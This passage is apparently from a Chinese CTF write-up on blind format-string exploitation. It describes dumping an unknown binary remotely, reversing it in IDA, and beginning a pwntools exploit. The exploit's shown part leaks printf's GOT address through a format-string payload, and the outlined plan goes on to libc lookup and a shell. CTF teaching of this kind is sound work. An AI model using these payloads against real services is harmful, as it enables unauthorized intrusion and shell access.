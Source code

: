 前面可以先利用我设计的i来测试基地址,因为我们根本不知道这个程序的保护机制,所以我们没法知道是否开启了ASLR,那么测试基地址重要性,就来了,32位程序的基地址是0x8048000,如果在此地址上面,返回的数据的确是0x7F454C46,那么就是没有开启ASLR,如果开启了,那就需要爆破搜索到这些字符,也能同样的dump下来

然后其中有段```remain = p.recvrepeat(0.2)#tail``` 这里很重要,就是为了读取前面截断数据后面输出的垃圾数据,这也是很多博客提供的脚本没法dump的原因...(不知道他们是如何dump的,可能有什么其它的骚操作?)

还有一个就是,读取的所有null,都应该转换为```\x00```,这样子就可以把scanf读取数据\x00截断的问题,给解决了

### dump程序的分析

dump下来的程序是没法运行(没有SHT,dump下来的时候是通过EOF来进行判断结尾的,但是SHT的偏移是0x18dc但是程序运行的时候,是不会把这些数据载入到地址上的)

我们直接ida打开发现,还是可以分析的,很开心的

![](https://raw.githubusercontent.com/selfishspring/blogphoto/master/20191104141700.png)

还行,就是plt/got表显示的残缺不全...但是其实还是可以找得到的...

如果对于ida逆向分析程序熟悉的,应该知道,start函数的倒数第二行的loc_804856B就是main函数的地址

那么双击点击进入,N 改名...发现出来的是前面那段输出的代码,其中后面的循环输出代码,没有出来,那么取消改名,nop掉一些ida无法解析的代码,改下面那段汇编代码的名字为main,ok

![](https://raw.githubusercontent.com/selfishspring/blogphoto/master/20191104190318.png)

F5,快乐...

程序整体结构完全展示出来了,就差分析函数的作用了...这边直接根据左下角的导入函数列表来分析使用的函数功能就完事了

改名字后,整个结构其实是这样子的

![](https://raw.githubusercontent.com/selfishspring/blogphoto/master/20191104190552.png)

OK,完全简单了...就是简单的格式化字符串漏洞了,写exp...

## exp

printf函数的地址,直接利用plt/got的知识,寻找到就行...

- leak address
- use LibcSearcher to find libc
- getshell

写exp的时候注意,system函数是可以通过增加分号,来执行多条命令的

```python
#-*- coding:utf-8 –*-
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level='debug'
#context(arch = 'i386', os = 'linux', log_level='debug')
#context(arch = 'amd64', os = 'linux', log_level='debug')
#log_level=['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
Debug = 1
if Debug:
    io = process("./pwn1")
else:
    io = remote('',)

#dump bin can not be loaded
#but can analysis
offset = 8
#step 1 leak the printf_got
#maybe plt 08048400
io.recvuntil('Please tell me:')
printf_got = 0x0804A014
payload_leak = 'x' + p32(printf_got) + "%8$s"
io.send(payload_leak)
libc_printf = u32(io.recv()[14:18])
print hex(libc_printf)
```
